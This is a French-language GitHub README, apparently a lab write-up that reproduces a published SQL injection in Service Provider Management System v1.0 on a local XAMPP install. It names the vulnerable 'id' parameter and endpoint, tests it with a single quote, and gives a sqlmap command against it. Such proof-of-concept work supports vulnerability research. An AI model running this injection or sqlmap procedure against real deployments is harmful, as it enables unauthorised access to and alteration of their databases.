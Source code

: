 # Sql-injection
Execution de la vulnérabilité d'injection SQL sur Service Provider Management System v1.0

#### Exploit Title: Service Provider Management System v1.0 - SQL Injection
#### Date: 2023-05-23
#### Exploit Author: Ashik Kunjumon
#### Vendor Homepage: https://www.sourcecodester.com/users/lewa
#### Software Link: https://www.sourcecodester.com/php/16501/service-provider-management-system-using-php-and-mysql-source-code-free-download.html
#### Version: 1.0
#### Testé sur: Linux

###1. Description :

Le système de gestion des fournisseurs de services v1.0 permet une injection SQL via le paramètre ID
dans #####/php-spms/?page=services/view&id=2
L'exploitation de ce problème pourrait permettre à un attaquant de compromettre l'application
compromettre l'application, d'accéder à des données ou de les modifier,
ou d'exploiter les dernières vulnérabilités de la base de données sous-jacente.

####Point final : /php-spms/?page=services/view&id=2

####Paramètre vulnérable : id (GET)

###2. Preuve de concept :
###Etape 1- Installation de l’application web vulnérable
Pour cette étape nous essayerons de déployer l’application sur xampp.


On cré une base de donnée portant le nom de #####spms_db
![Capture d’écran du 2023-06-07 12-14-55](https://github.com/rozzario/Sql-injection/assets/36795507/29b5a31f-3d3c-48f8-937c-ca2cf1810f6d)

Puis on importe le contenu de la base de donnée:
![Capture d’écran du 2023-06-07 12-16-15](https://github.com/rozzario/Sql-injection/assets/36795507/65edaaf6-f0e1-4148-a100-bb11a4d76f4c)

Une fois que c’est fait, on déploie l’application en copiant le dossier du site web dans le répertoire htdocs de xampp. On obtient donc ceci:
![Capture d’écran du 2023-06-07 12-18-00](https://github.com/rozzario/Sql-injection/assets/36795507/1391e28f-96d0-413d-849c-15c078e52d51)

###Étape 2 - En visitant l'url :
http://localhost/php-spms/?page=services/view&id=2, il suffit d'ajouter un guillemet simple pour
vérifier l'injection SQL.
![Capture d’écran du 2023-06-07 12-18-53](https://github.com/rozzario/Sql-injection/assets/36795507/7cd464c3-0634-4e6d-8c8b-6a0c8880c245)
![Capture d’écran du 2023-06-07 12-19-24](https://github.com/rozzario/Sql-injection/assets/36795507/62b380b6-18ea-444c-84f4-a921a93210ee)

###Etape 3 - Exécuter sqlmap -u " http://localhost/php-spms/?page=services/view&id=2"
-p id --dbms=mysql



